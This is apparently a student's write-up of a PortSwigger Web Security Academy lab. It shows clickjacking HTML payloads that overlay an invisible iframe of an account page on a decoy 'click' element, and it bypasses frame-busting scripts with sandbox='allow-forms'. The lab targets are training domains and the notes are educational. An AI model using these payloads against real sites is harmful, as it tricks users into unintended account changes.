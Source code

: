 
### Clickjacking with a frame buster script : APPRENTICE

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Exactly the same approach as [[Portswigger/Clickjacking/Lab 2|Lab 2]].
> Trying the same payload.

```HTMl
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a4b008d04e7411280802b310040007a.web-security-academy.net/my-account?email=newnew@new.com"> </iframe> 
</body>
```

> Putting the payload in the exploit server, storing it, and then viewing it isn't working.
> When i hover over the `click` text the mouse doesn't turn to the pointer, this means that the frame was removed.

> To test this theory, i made the opacity for the target website 1, and then viewed the exploit again and this was the result.

![](./screenshots/lab3-1.png)

> This means there are frame busting scripts.
> To overcome them, we add `sandbox="allow-forms"` to the `iframe` element.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:600px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:450px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0a4b008d04e7411280802b310040007a.web-security-academy.net/my-account?email=newnew@new.com" sandbox="allow-forms"> </iframe> 
</body>
```

> Now when we store and view, we see that the mouse pointer shows when we hover over `click`.
> Delivering the exploit to victim completes the lab.

---
